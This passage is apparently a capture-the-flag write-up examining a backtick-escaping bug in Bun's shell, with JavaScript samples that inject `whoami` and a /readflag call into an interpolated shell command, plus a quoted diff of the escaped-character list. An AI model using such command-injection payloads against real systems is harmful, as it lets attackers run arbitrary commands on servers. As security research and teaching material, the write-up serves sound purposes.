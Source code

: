An interesting PR caught our eyes: [Fix backtick escaping and add more tests](https://github.com/oven-sh/bun/pull/10980)

Quote:

```
What does this PR do?
This fixes shell not escaping a string with backticks and no other special characters
Also added more tests for shell escaping
```

We got something! They said backticks aren't escaped!!

```js
import { $ } from "bun";

let cmd = "`whoami`"
console.log($.escape(cmd));
await $`echo ${cmd}`;
```

I don't know whoami but apparently bun does :O

```sh
> bun req.js
`whoami`
nullchilly
```

This means that we can just read the flag and the challenge is done

```js
import { $ } from "bun";

let cmd = "`/readflag give me the flag`"
console.log($.escape(cmd));
await $`echo ${cmd}`;
```

..is what I wanted to say, but reality is often disappointing :(

```sh
> bun req.js
"\`/readflag give me the flag\`"
`/readflag give me the flag`
```

What exactly happened here? Skeeming through [the PR](https://github.com/oven-sh/bun/pull/10980/files#diff-8944ca8e3b75efc062f0f4b956bc5fa2aa66b2367c80560beedf1dbb7e1b29b3R4005) we can see this interesting diff:
```diff
/// Characters that need to escaped
- const SPECIAL_CHARS = [_]u8{ '$', '>', '&', '|', '=', ';', '\n', '{', '}', ',', '(', ')', '\\', '\"', ' ', '\'' };
+ const SPECIAL_CHARS = [_]u8{ '~', '[', ']', '#', ';', '\n', '*', '{', ',', '}', '`', '$', '=', '(', ')', '0', '1', '2', '3', '4', '5', '6', '7', '8', '9', '|', '>', '<', '&', '\'', '"', ' ', '\\' };
```
